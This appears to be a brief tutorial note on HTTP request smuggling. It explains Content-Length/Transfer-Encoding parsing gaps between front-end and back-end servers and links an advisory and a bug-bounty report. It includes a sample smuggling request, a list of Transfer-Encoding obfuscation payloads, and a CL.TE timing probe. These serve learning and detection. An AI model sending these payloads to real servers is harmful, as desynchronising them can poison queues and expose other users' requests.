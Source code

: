 # Core Concepts 
HTTP/1.1 allows sending multiple requests in a single HTTP connection.
requests are aligned sequentially and the servers parsers the headers to 
determine a request begins and ends and where another starts. 

This of course is harmless but with the modern natures of systems, 
distributed and communicated with each using HTTP, a semantic gap is 
created where there is a gap btn a front-end server and a back-end 
server and these two/more servers tend to parse these HTTP requests 
slightly differently. 

# On Transfer-Encoding and Content-Length
If a message is received with both a Transfer-Encoding header field and a Content-Length header field, the latter MUST be ignored.
Whenever we find a way to hide the Transfer-Encoding header from one server in a chain it will fall back to using the Content-Length and we can desynchronize the whole system

# TE.TE 
A scenario where both the back end and front end server 
support Transfer-Encoding but one can be induced to ignore 
the header by obfuscating the header value. 

# Sample Request
> POST / HTTP/1.1
> Host: example.com
> Content-Length: 6
> Transfer-Encoding: chunked

> 0\r\n
> G\r\n
> \r\n
> POST / HTTP/1.1
> Host: example.com


> 0 (1 byte)
> \r\n (carriage return + line feed, 2 bytes)
> G (1 byte)
> \r\n (carriage return + line feed, 2 bytes)


# Obfuscating Payloads 
> Transfer-Encoding: xchunked

> Transfer-Encoding : chunked

> Transfer-Encoding: chunked
> Transfer-Encoding: x

> Transfer-Encoding:[tab]chunked

> [space]Transfer-Encoding: chunked

> X: X[\n]Transfer-Encoding: chunked

> Transfer-Encoding
> : chunked


Detecting HTTP Request Smuggling
I'll refer to this orientation as CL.TE for short. We can detect potential request smuggling by sending the following request:
POST /about HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 4

1
Z
Q

Thanks to the short Content-Length, the front end will forward the blue text only, and the back end will time out while waiting for the next chunk size. This will cause an observable time delay.

If both servers are in sync (TE.TE or CL.CL), the request will either be rejected by the front-end or harmlessly processed by both systems. Finally, if the desync occurs the other way around (TE.CL) the front-end will reject the message without ever forwarding it to the back-end, thanks to the invalid chunk size 'Q'. This prevents the back-end socket from being poisoned.



# Further Research:
https://docs.varnish-software.com/security/VSV00011/

# Real World Exploits
https://hackerone.com/reports/919175